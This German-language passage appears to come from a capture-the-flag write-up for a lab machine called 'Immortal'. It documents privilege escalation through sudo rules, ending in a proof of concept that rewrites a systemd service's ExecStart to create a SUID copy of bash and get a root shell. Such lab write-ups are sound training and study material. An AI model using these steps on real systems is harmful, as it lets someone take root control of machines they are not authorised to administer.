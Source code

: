 1.  **Sudo-Rechte-Prüfung für `drake`:**
    *   `drake@Immortal:~/...$ sudo -l` zeigte:
        ```
        User drake may run the following commands on Immortal:
            (eric) NOPASSWD: /usr/bin/python3 /opt/immortal.py
        ```
2.  **Ausnutzung:**
    *   `sudo -u eric python3 /opt/immortal.py`
    *   Dies gewährte eine Shell als Benutzer `eric`.

### eric zu root (Sudoedit/Systemd Service)

1.  **Sudo-Rechte-Prüfung für `eric`:**
    *   `eric@Immortal:/...$ sudo -l` zeigte u.a.:
        ```
        User eric may run the following commands on Immortal:
            (root) NOPASSWD: sudoedit /etc/systemd/system/immortal.service
            (root) NOPASSWD: /usr/bin/systemctl start immortal.service
            [...]
        ```
2.  **Modifikation der Systemd Service-Datei:**
    *   Mit `sudoedit /etc/systemd/system/immortal.service` wurde die Datei bearbeitet und die `ExecStart`-Direktive hinzugefügt/modifiziert:
        ```ini
        [Service]
        Type=oneshot
        ExecStart=/bin/bash -c 'cp /bin/bash /opt/bash && chmod u+s /opt/bash'
        ```
3.  **Ausführung des Service und Erhalt der Root-Shell:**
    *   `sudo -u root /usr/bin/systemctl start immortal.service`
    *   Dies erstellte eine SUID-Bash in `/opt/bash`.
    *   `eric@Immortal:/opt$ ./bash -p` startete eine Shell mit `euid=0(root)`.

---

## Proof of Concept (Finale Root-Eskalation via Systemd Service)

**Kurzbeschreibung:** Die finale Privilegieneskalation von `eric` zu `root` nutzte `sudoedit`-Rechte auf eine systemd-Service-Datei und die Erlaubnis, diesen Dienst als `root` zu starten. Die Service-Datei wurde modifiziert, um beim Start eine Kopie von `/bin/bash` nach `/opt/bash` zu erstellen und dieser das SUID-Bit zu setzen. Das anschließende Starten des Dienstes führte die Payload aus. Die Ausführung von `/opt/bash -p` gewährte dann eine Root-Shell.

**Schritte (als `eric`):**
1.  Bearbeite die Service-Datei:
    ```bash
    sudoedit /etc/systemd/system/immortal.service
    ```
    Füge unter `[Service]` hinzu oder modifiziere `ExecStart`:
    ```ini
    ExecStart=/bin/bash -c 'cp /bin/bash /opt/bash && chmod u+s /opt/bash'
    ```
    Speichere die Datei.
2.  Starte den modifizierten Service (als `root` impliziert durch `sudo`-Regel):
    ```bash
    sudo /usr/bin/systemctl start immortal.service
    ```
3.  Führe die SUID-Bash aus:
    ```bash
    /opt/bash -p
    ```
**Ergebnis:** Eine Shell mit `euid=0(root)` wird gestartet.

---